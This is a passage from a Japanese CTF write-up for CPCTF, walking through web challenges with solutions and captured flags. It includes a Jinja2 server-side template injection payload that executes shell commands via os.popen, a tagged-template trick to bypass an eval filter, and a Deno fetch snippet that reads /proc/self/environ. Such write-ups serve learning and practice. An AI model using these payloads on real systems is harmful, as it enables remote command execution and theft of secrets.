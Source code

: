 ```python
print(flag)

sock.close()
```

`CPCTF{printf_p0W3r_1s_1nfinit3}`

## Web

### Lv.2 Name Omikuji

どうすれば大吉になるか見てみると、入力する文字列のsha256が全て0の必要があると...
ヒント1まで見て、Server Side Template Injectionというものがあるのを知る。

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

これを用いてフラグファイルの内容を読み取る。

```js
{% for a in [request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag.txt')['read']()] %} {{ a }} {% endfor %}
```

`CPCTF{sst1_is_d3ngerou2}`

### Lv.3 String Calculator

どうにかして`getFlag`関数を実行させたい。けれども`()\[\].=`が入力文字として使用不可で、`eval`があってもうまくフラグを得られない。

```js
const result = eval(`(${input})`);
```

最後までヒントを見た上で、関数の実行の仕方を調べたところ、[タグ付きテンプレート](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Template_literals#%E3%82%BF%E3%82%B0%E4%BB%98%E3%81%8D%E3%83%86%E3%83%B3%E3%83%97%E3%83%AC%E3%83%BC%E3%83%88)というものがあるようで、これを用いると簡単[^simple]に関数を実行できる。

[^simple]: Webの問題ってシンプルなの多いですよね、って思ってたらLv.5にエグいのがありました。

```js
getFlag``
```

と入力することで獲得できる。

`CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}`

### Lv.4 Blend Script

`--allow-read`でファイル読み込みが許可されているので、`/proc/self/environ`を読みに行きたい。
`Deno.readFile`だと流石に`--allow-all`が要求されできなかった。  
ヒント2まで開け、方針が同じことを確認したのでDenoのローカルファイルのアクセス方法を調べてみると、

https://qiita.com/access3151fq/items/48e17d1363de39d01ad1#%E6%96%B9%E6%B3%951%E3%83%AD%E3%83%BC%E3%82%AB%E3%83%AB%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AEfetch

どうやら`fetch`を使うことで行けそう...

```js
const res = await fetch(new URL("/proc/self/environ", import.meta.url));
console.log(await res.text());
```


[^pdf]: radare2で関数の逆アセンブルを行うコマンド
[^sosuu]: 素数の密度は素数定理により対数関数でおおまかに評価できる。よって巨大な数の近辺には高確率で素数が存在することが言える。
[^logfile]: これを見つけたときの快感
[^summer]: [Summer Pockets](http://key.visualarts.gr.jp/summer/) Key製の面白いノベルゲー、アニメやってるらしい。
[^gohan]: ちょうどお昼ご飯を食べながら見ていました
[^youtube]: 何故か渋谷駅西口の工事風景を定期的に投稿している人が存在。この方がいなかったら無理だった。
[^zunzun]: 「ずんずんずずん ずんずずんずんずん」「ずずずずずんずんずずんずん」